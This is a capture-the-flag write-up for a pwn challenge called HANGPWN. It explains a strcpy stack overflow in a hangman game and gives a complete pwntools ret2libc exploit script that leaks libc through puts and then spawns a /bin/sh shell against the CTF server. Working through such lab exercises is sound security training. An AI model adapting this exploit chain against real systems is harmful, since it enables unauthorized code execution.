 # HANGPWN

## Writeup
Hey 0xk7 here. This is my first ever pwn challenge that I made.
I took a lot of inspiration from other pwn challenges and help from my collegues here at RIT.

So the thought behind this challenge was to make the input be very small and the perfect game to do that was hangman.
You would guess a letter and after that you would be able to guess the word. 

Lets take a look at the main structure. 

The program allows for 1 letter input and the word to guess as separate buffers. So we can't do much there.

In the main function there are also some string length checks and new line removal.
```c
        buffer[strcspn(buffer, "\n")] = 0;
```
The exploit is in the strcpy of the buffer here
```c
        strcpy(words[], buffer);
```
This is vulnerable as for every attempt strcpy gets called and copies all the way until a newline is found. So everytime we guess a letter a buffer overflow is occuring.

So at the final guess we have the ability to overwrite the stack. Here we have to be careful as we want to keep overwriting the stack by staying in the game state.

In order to do that we have to overwrite the two variables that control the game state. Game over and the solved variable shown below
```c
typedef struct game {
    short attempts;
    char words[];
    char game_over;
    char solved;
} game;
```
control over atttemps
```c
if (attempts + 1 == ATTEMPTS) {
            game_over = 1;
        }
```
control over correct answer
```c
if (compare(guess_buffer, answer, ATTEMPTS)){
            solved = 1;
        }
```
Since the stack grows top down we can overflow our input to overwrite both game over and solved to stay in the game state.
We also have to encode our input by the encoding used in the function which is the input xored by 0x34.

Now that we found the exploit we can use pwntools to get ret2libc.

### Solution

```py
from pwn import *

# pe = process('jail/bin/hangpwn')
pe = remote("ctf.ritsec.club", 9003)
# pe = process('hangpwn')
elf = ELF('hangpwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

print(dir(elf))

# PUTS_PLT = elf.plt['printf']
PUTS_PLT = 0x4010b0
POP_RDI = 0x00000000004016e3
RET_ADDR = 0x000000000040101a

PUTS_GOT = elf.got['puts']
MAIN_ADDR = elf.symbols['main']
# pe.s
context.log_level='debug'

def ready_overflow(pe):
    pe.send("4\n"*18*2)

ready_overflow(pe)
pe.clean()

def send_addr(addr):
    pe.sendline(chr((addr & 0xff) ^ 0x34))
    print(str((addr & 0xff) ^ 0x34))
    pe.sendline("asd")
    pe.sendline(chr(((addr>>8) & 0xff) ^ 0x34))
    pe.sendline("asd")
    pe.sendline(chr(((addr>>16) & 0xff) ^ 0x34))
    pe.sendline("asd")
    pe.sendline(chr(((addr>>24)& 0xff) ^ 0x34))
    pe.sendline("asd")
    pe.sendline(chr(((addr>>32)& 0xff) ^ 0x34))
    pe.sendline("asd")
    pe.sendline(chr(((addr>>40)& 0xff) ^ 0x34))
    pe.sendline("asd")
    pe.sendline(chr(((addr>>48)& 0xff) ^ 0x34))
    pe.sendline("asd")
    pe.sendline(chr(((addr>>54)& 0xff) ^ 0x34))
    pe.sendline("asd")
    pe.clean()
    
send_addr(POP_RDI)
send_addr(PUTS_GOT)
send_addr(PUTS_PLT)
send_addr(MAIN_ADDR)

pe.sendline("1")
import time
time.sleep(1)
pe.clean()
pe.sendline("BINGAUS")
# pe.readuntil("Enter word: ")
print("A")
leak=u64((pe.readline())[:-1].ljust(8, '\x00'))
libc.address = leak - libc.symbols['puts']
ready_overflow(pe)
# pe.sendline(POP_RDI)
send_addr(POP_RDI)
BINSH = next(libc.search(b"/bin/sh"))
send_addr(BINSH)
send_addr(RET_ADDR)
send_addr(libc.symbols['system'])
pe.sendline("1")
import time
time.sleep(1)
pe.clean()
pe.sendline("BINGAUS")

pe.interactive()
```

### Flag
Flag: RS{HUNG_UP_0N_0FF_BY_0N3}